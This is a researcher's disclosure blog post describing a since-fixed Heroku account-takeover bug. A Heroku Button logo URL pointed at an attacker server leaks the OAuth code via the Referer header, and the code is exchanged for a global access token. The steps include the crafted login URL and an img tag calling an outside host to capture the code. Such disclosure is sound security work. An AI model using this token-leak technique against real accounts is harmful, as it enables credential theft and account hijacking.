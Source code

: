 ```yaml
---
layout: post
title: "Taking over Heroku accounts"
---
```


_This is the first time I'm proud of a vulnerability I find._

> This issue has been fixed by Heroku.

Context
======
<a href="https://www.heroku.com/" target="_blank">Heroku</a> has a feature called <a href="https://elements.heroku.com/buttons" target="_blank">Buttons</a>, which "let you one-click provision, configure and deploy third party components, libraries and pattern apps".
You can notice the button on Github like here: <a href="https://github.com/ParsePlatform/parse-server-example" target="_blank">https://github.com/ParsePlatform/parse-server-example</a>. In this case, when you click on <img src="https://www.herokucdn.com/deploy/button.svg" height="20">, you are redirected to <a href="https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example" target="_blank">https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example</a>.

Anyone can create a Button: <a href="https://devcenter.heroku.com/articles/heroku-button" target="_blank">https://devcenter.heroku.com/articles/heroku-button</a>. 

I created a Button <a href="https://github.com/esevece/heroku_test" target="_blank">https://github.com/esevece/heroku_test</a> that only includes the required file `app.json`. Because `app.json` is the file from where Heroku gets the information about the Button.

I tried injecting HTML attributes and tags in `app.json` to achieve XSS, but the special characters are being escaped in the client side (if you can do it, <a href="https://bugcrowd.com/heroku" target="_blank">report it!</a>). However, I noticed that I can set the URL of the `"logo"` to any value. This URL is used as the `src` of an `<img>` created when _https://dashboard.heroku.com/new_ is loaded.

When using `<img>`s the `Referer` header is sent with the URL that requested the image as the value, which allows the "image" to capture this URL in the server-side. I was only able to capture the `Referer` from a different domain using Firefox, Safari, Internet Explorer and Edge, but not using Chrome.

_More ways to leak HTTP requests: <a href="https://github.com/cure53/HTTPLeaks" target="_blank">https://github.com/cure53/HTTPLeaks</a>._

Vulnerability
======
What I had until now was that when I load <a href="https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value" target="_blank">https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value</a>, `<img src="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" class="">` is created and the browser makes a request to <a href="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" target="_blank">https://avatars0.githubusercontent.com/u/1294580?v=3&s=200</a> with the header `Referer: https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value`. But I didn't have any critical parameter+value in the URL. 

I played with <a href="https://devcenter.heroku.com/articles/oauth" target="_blank">OAuth</a> and the applications owned by Heroku, with the intention to point the __redirect_uri__ to _https://dashboard.heroku.com/new?template=..._ -- where I could leak the `Referer` -- without success.

I don't remember when, but I noticed that a parameter __code__ is added to _https://dashboard.heroku.com/[path_requested]_ after authentication. The value of this parameter is sent to an endpoint which doesn't have <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)" target="_blank">CSRF</a> protection and returns a JSON response including an `"access_token"` with "global" scope. This "global" scope allows you to do anything with the account using the <a href="https://api.heroku.com" target="_blank">API</a>! However I couldn't change the password or the email of the account, until... [to be continued :smile:]

Attack
======
Only worked if the user was already authenticated.

1. Send user to

        https://longboard.heroku.com/login?state=https%3A%2F%2Fdashboard.heroku.com%2Fnew%3Ftemplate%3Dhttps%253A%252F%252Fgithub.com%252Fesevece%252Fheroku_test

    ![1]({{ site.github.url }}/screenshots/2016-06-01-1.png)

2. User is redirected to 

        https://id.heroku.com/oauth/autorize?client_id=....
    
    ![2]({{ site.github.url }}/screenshots/2016-06-01-2.png)
    ![3]({{ site.github.url }}/screenshots/2016-06-01-3.png)

3. User is redirected to

        https://longboard.heroku.com/auth/heroku/callback?code=....

    ![4]({{ site.github.url }}/screenshots/2016-06-01-4.png)
    ![5]({{ site.github.url }}/screenshots/2016-06-01-5.png)

4. And finally, the user is redirected to

        https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2Fesevece%2Fheroku_test&code=...

    ![6]({{ site.github.url }}/screenshots/2016-06-01-6.png)
    ![7]({{ site.github.url }}/screenshots/2016-06-01-7.png)

5. Once the page loads, a request is made to the Github API to get the file __app.json__

        https://api.github.com/repos/esevece/heroku_test/contents/app.json?ref=master

    ![8]({{ site.github.url }}/screenshots/2016-06-01-8.png)
    ![9]({{ site.github.url }}/screenshots/2016-06-01-9.png)

6. The `<img src="https://u00f1.xyz/heroku/poc.php">` is created and the "image" is loaded, sending the __code__ in the `Referer`
    ![10]({{ site.github.url }}/screenshots/2016-06-01-10.png)

7. My file <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> captures the `Referer`, extracts the __code__ and makes a POST request to 

        https://longboard.heroku.com/login/token

    with the value of the parameter __password__ set to the value of __code__
    ![11]({{ site.github.url }}/screenshots/2016-06-01-11.png)

8. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"access_token"` from the last response and makes a GET request to 

        https://api.heroku.com/account

    with the header `Authorization:` set to `Bearer [the_access_token]`
    ![12]({{ site.github.url }}/screenshots/2016-06-01-12.png)

9. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"email"` from the last response and sends an email to the address
    ![13]({{ site.github.url }}/screenshots/2016-06-01-13.png)

Art Attack
======
After reporting the vulnerability to Heroku, <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> from <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a> asked me to do whatever I could with his Heroku account. So, I started to look at what I could do and noticed that I couldn't change the email or password of his account. 

I kept looking for ways to really take over his account, until I decided to try to use his __access_token__ (that I had taken using the attack) as his password, and it worked! So, I changed his email.

Thanks
======
To <a href="https://www.heroku.com/" target="_blank">Heroku</a> for allow me to write about this vulnerability. 
To <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> for push me to do something really bad with the bug.

_If something is not correct or well explained, let me know. Maybe is because of my ignorance, my poor English or because I missed something._
